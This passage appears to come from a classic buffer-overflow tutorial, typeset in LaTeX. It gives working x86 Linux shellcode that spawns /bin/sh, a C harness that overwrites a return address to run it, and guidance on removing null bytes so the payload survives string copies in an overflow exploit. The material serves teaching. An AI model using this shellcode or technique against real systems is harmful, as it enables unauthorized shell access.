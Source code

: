 \documentclass[a4paper]{article}
\begin{document}
\begin{listing}[ht]
\begin{verbatim}

char shellcode[] =
	"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
	"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
	"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
	"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() {
	int *ret;

	ret = (int *)&ret + 2;
	(*ret) = (int)shellcode;

}

\end{verbatim}
\caption{testsc.c}
\label{listing:1}
\end{listing}



\begin{lstlisting}[style=DOS]
$ gcc -o testsc testsc.c
\end{lstlisting}

\begin{lstlisting}[style=DOS]
$ ./testsc
\end{lstlisting}

\begin{lstlisting}[style=DOS]
$ exit
\end{lstlisting}

It works! But there is an obstacle. In most cases we’ll be trying to overflow a character buffer. As such any null bytes in our shellcode will be considered the end of the string, and the copy will be terminated. There must be no null bytes in the shellcode for the exploit to work. Let’s try to eliminate the bytes (and at the same time make it smaller).

\begin{verbatim}

Problem instruction:             Substitute with:
--------------------------------------------------------
movb   $0x0,0x7(%esi)		xorl   %eax,%eax
molv   $0x0,0xc(%esi)		movb   %eax,0x7(%esi)
				     movl   %eax,0xc(%esi)
--------------------------------------------------------
movl   $0xb,%eax            	movb   $0xb,%al
--------------------------------------------------------
movl   $0x1, %eax           	xorl   %ebx,%ebx
movl   $0x0, %ebx           	movl   %ebx,%eax
				     inc    %eax
--------------------------------------------------------
\end{verbatim}
\end{document}
